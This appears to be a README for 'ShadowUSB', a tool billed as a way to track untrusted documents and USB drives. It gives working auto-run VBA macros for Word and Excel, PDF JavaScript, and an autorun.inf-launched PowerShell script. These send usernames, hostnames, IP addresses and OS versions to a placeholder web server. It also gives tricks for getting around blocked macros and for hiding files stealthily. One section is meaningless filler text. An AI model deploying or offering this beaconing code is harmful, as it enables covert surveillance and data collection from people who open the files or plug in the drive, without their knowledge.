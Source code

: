 # ShadowUSB
ShadowUSB is a covert tracking tool designed to monitor and log interactions with untrusted documents and USB drives. By embedding beaconized documents, ShadowUSB tracks when and where files are accessed, offering valuable insights into unauthorized usage. Whether plugged into an unknown machine or opening potentially risky documents, ShadowUSB silently captures the event, providing detailed analytics on user behavior. Ideal for cybersecurity professionals and organizations looking to enhance their threat detection capabilities, ShadowUSB adds an extra layer of security by shedding light on otherwise invisible activities.

## Beaconizing the Doc's
Haxx0r ipsum ascii worm *.* rsa Leslie Lamport it's a feature echo memory leak syn race condition recursively. Packet break root Linus Torvalds case kilo bypass false bytes continue endif sql foad stdio.h pragma chown. Crack else blob infinite loop packet pwned float shell afk.

### Beaconizing Word
Let's beaconize Word. You'll need to have the developer tab in your ribbon for Word. Click VB, make sure your are in ThisDocument, and copy in this code.  Also don't forget to change yourwebserver.com to your server address.
```commandline
Private Sub Document_Open()
    MsgBox "Word Document Opened" ' Debugging message
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=word&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```

Mo Macros, Mo Problems... Your company blocks macros/VB.  No problemo.  We will use a shapes and hyperlinks to bypass this.
```commandline
Steps to Create a Whole-Page Link in Word M365

1. Open your Word Document:

 - Start with the document where you want to add the whole-page link.
 
2. Insert a Shape:

 - Go to the Insert tab.
 - Click on Shapes and choose Rectangle.
 - Draw a rectangle that covers the entire page. You can drag the edges of the shape to ensure it covers the full width and height of the page.

3. Make the Shape Transparent:

 - With the rectangle selected, go to the Format tab.
 - Click on Shape Fill and select No Fill.
 - Click on Shape Outline and select No Outline. This will make the rectangle invisible.

4. Add a Hyperlink to the Shape:

 - Right-click on the shape and select Link (or Hyperlink).  e.g., http://yourserver.com/track?doc=word
 - In the dialog box, enter the URL or the location within the document you want to link to.
 - Click OK.

5. Send the Shape to the Back:

 - With the shape still selected, go to the Format tab.
 - Click on Send Backward > Send to Back to ensure it doesn't cover any text or other content on the page.

6. Test the Link:

 - Save your document and test the link by clicking anywhere on the page.
```

### Beaconizing Excel
Let's beaconize Excel. You'll need to have the developer tab in your ribbon for Excel.  Click VB, make sure you are in ThisWorkbook, and copy in this code.  Also don't forget to change yourwebserver.com/ to your web server address.

Visual Basic [VB]
```commandline
Private Sub Workbook_Open()
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=excel&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```
As you can guess... Most businesses/users would[SHOULD!] have macros disabled.  To bypass this we will use Excels "Get Data" feature and a hyperlink to our tracking web server.
```commandline
- In Excel, go to the "Data" tab and select "Get External Data."
- Choose "From Web" and enter your tracking URL, e.g., http://yourserver.com/track?doc=excel.
- This will trigger a request when the document is opened, but it might also prompt the user.
```
### Beaconizing PDFs

Here we will beaconize our PDFs.  I am using a combination of JavaScript and Tracking URLs.  I am doing this to try to keep things stealthy.  Usernames via web browsers are tricky but I can get IP Addresses and User Agent info that helps track the end user.

JavaScript Code:
```
var viewerApp = app.viewerType;
var viewerVersion = app.viewerVersion;
var user = app.response("Please enter your username:");


var url = "http://yourwebserver.com/tracker?doc=pdf&user=" + encodeURIComponent(user) + "&app=" + encodeURIComponent(viewerApp) + "&version=" + encodeURIComponent(viewerVersion);

app.launchURL(url, true);
```    
Tracking URL:
```commandline
http://yourserver.com/track?id=UniqueID12345
```
## Backend Tracker 
The tracker.py takes care of the back end tracking.  This is a WIP.  It is basic at the moment but tracks and logs to a track.log file.  It currently uses VB and JavaScript, I am working on making it more stealthy to the end user.

To launch the backend tracker:
```commandline
python tracker.py
or
python3 tracker.py
```
### Tracking/Logging Webpage
I added a webpage to the backend script.  It shows a more C-Level easy to read version of the logs.  You can this with your C-Level/non-tech management.  Also makes it easier to read for "1337 h4xx0rs"... I mean cybersecurity professionals.

To access this feature:
```commandline
http://yourserver.com:8000/logs
```

This gives access to Real-Time Updates:  The logs will update each time the page is refreshed, reflecting the most recent tracking events.

## USB Drive [Hardware] tracking
To track the actual USB drive we will use powershell and auto run.  You can do this with python as well. I may implement that later.  As for now powershell works great.

### Powershell Script for tracking[beaconizing] the physical USB drive.
This powershell script is pretty self explanitory.  It will give you the IP Address, Hostname, Username and OS Version of the user that inserted the drive.  Copy this script save it as tracker.ps1  For stealthiness store this tracker.ps1 and the autorun.inf file in a hidden folder on your ShadowUSB drive.
```commandline
$ip = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object { $_.InterfaceAlias -eq (Get-NetIPConfiguration | Where-Object { $_.NetAdapter.Status -eq 'Up' }).InterfaceAlias } | Select-Object -First 1).IPAddress
$hostname = $env:COMPUTERNAME
$username = $env:USERNAME
$os_version = (Get-WmiObject Win32_OperatingSystem).Version
$user_agent = "$hostname-$username-$os_version"

Invoke-WebRequest -Uri "http://yourwebserver.com/tracker?id=USBTracking&hostname=$hostname&ip=$ip&user=$username&os=$os_version" -UserAgent $user_agent
```

### Autorun via autorun.inf
You can use notepad copy this code and save it as autorun.inf
```commandline
[autorun]
open=powershell -ExecutionPolicy Bypass -File tracker.ps1
action=Run tracking script
label=USB Tracker
```